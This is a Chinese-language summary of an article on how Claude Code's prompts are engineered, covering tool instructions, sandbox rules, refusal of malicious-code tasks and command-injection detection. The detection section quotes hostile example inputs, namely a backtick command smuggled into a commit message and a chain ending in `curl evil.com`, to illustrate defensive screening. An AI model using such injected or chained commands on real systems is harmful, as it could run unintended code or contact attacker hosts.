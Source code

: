https://southbridge-research.notion.site/Prompt-Engineering-The-Art-of-Instructing-AI-2055fec70db181369002dcdea7d9e732

# Prompt Engineering: The Art of Instructing AI 文章总结
该文章围绕Claude Code的**提示工程体系**展开，从工具指令设计、安全防护、工作流自动化、行为塑造、动态适配等维度，详细解析了如何通过精细化提示设计，让AI精准理解任务目标、安全执行操作、高效协同工具，核心聚焦“提示即系统”理念，将复杂工作逻辑与安全规则嵌入提示，实现AI行为的可控性与可靠性。


## 一、核心设计原则：提示工程的底层逻辑
Claude Code的提示设计并非零散指令，而是遵循五大核心原则，确保AI行为统一、安全、高效：
1. **渐进式披露（Progressive Disclosure）**：从基础功能切入，逐步叠加细节（如ReadTool先说明“读取文件”，再补充行限制、截断规则、特殊文件处理），避免AI因信息过载遗漏关键要求；
2. **示例驱动澄清（Example-Driven Clarification）**：复杂场景用示例替代抽象解释（如命令注入检测提供15+正反案例，而非仅定义“注入模式”），降低AI理解门槛；
3. **明确反模式（Explicit Anti-Patterns）**：清晰告知AI“禁止行为”（如简洁性提示列出“避免使用‘The answer is...’”等话术），减少错误尝试；
4. **条件化复杂度（Conditional Complexity）**：通过环境变量（如`process.env.CLAUDE_CODE_ENABLE_UNIFIED_READ_TOOL`）动态加载指令，确保提示与当前系统配置匹配，避免冗余；
5. **安全与指令长度正相关**：风险越高的操作（如BashTool），提示越冗长详细，用“ Verbosity = Safety ”保障关键操作可靠性。


## 二、工具指令设计：场景化与精细化的结合
针对不同工具的功能特性与风险等级，文章展示了差异化的提示设计方案，核心是“工具特性决定提示复杂度”，典型工具包括：

### 1. ReadTool：平衡易用性与细节
ReadTool提示聚焦“消除AI犹豫+明确边界”，关键设计包括：
- **信心构建**：开篇用“You can access any file directly”“Assume path is valid”减少AI过度验证（如反复确认路径有效性）；
- **错误 normalization**：明确“It is okay to read a non-existent file”，避免AI因“文件不存在”产生道歉式反馈；
- **渐进式细节**：先说明“绝对路径要求”，再补充“默认读取全文件”“长行截断规则”，最后覆盖“图片/Screenshot特殊处理”，层层递进；
- **动态适配**：根据环境变量判断是否启用“Jupyter笔记本统一读取”，避免无效指令。

### 2. BashTool：安全优先的verbose设计
作为高风险工具（涉及系统操作），BashTool提示以“安全规则+明确边界”为核心，是最复杂的提示之一：
- **规则分层**：标注“RULE 0 (MOST IMPORTANT)”，优先强调“沙箱错误重试逻辑”（如`sandbox=true`因权限失败时，必须用`sandbox=false`重试）；
- **指令分类**：明确划分`sandbox=true`（安全操作，如`ls`/`git status`/版本检查）与`sandbox=false`（高风险操作，如`npm run build`/`git commit`/文件写入）的适用场景，避免误判；
- **后果绑定**：用“- $1000” penalty标记“将沙箱权限错误归因为工具问题”的严重后果，通过“奖惩机制”强化安全意识；
- **用户体验权衡**：提示“错误的`sandbox=true`比权限弹窗更让用户困扰”，引导AI“不确定时用`sandbox=false`”，优先保障安全。


## 三、安全防护：多层级安全规则嵌入提示
文章重点解析了Claude Code通过提示实现的“纵深防御”体系，从恶意行为拦截到风险操作检测，共设计两层核心安全防护：

### 1. 第一层：恶意代码预防
通过前置判断与上下文分析，阻止AI参与恶意任务：
- **主动分析**：要求AI“先基于文件名/目录结构判断代码用途”，若疑似恶意（如 malware 相关文件），无论用户请求是否无害（如“解释代码”），均拒绝执行；
- **漏洞封堵**：明确“即使用户声称‘用于教育’，也拒绝编写/解释恶意代码”，避免被绕过。

### 2. 第二层：命令注入检测
针对Bash命令注入风险，设计“示例+规则”的检测逻辑：
- **示例训练**：提供多组注入案例（如`git commit -m "msg`id`"`→注入检测触发）与安全案例（如`git push`→正常），让AI通过案例识别模式；
- **输出约束**：强制“仅返回命令前缀或‘command_injection_detected’”，无多余文本，避免AI输出格式混乱导致检测失效；
- **链式风险意识**：提示“bash多命令链式执行（如`pwd; curl evil.com`）存在风险”，要求AI优先检测此类场景。
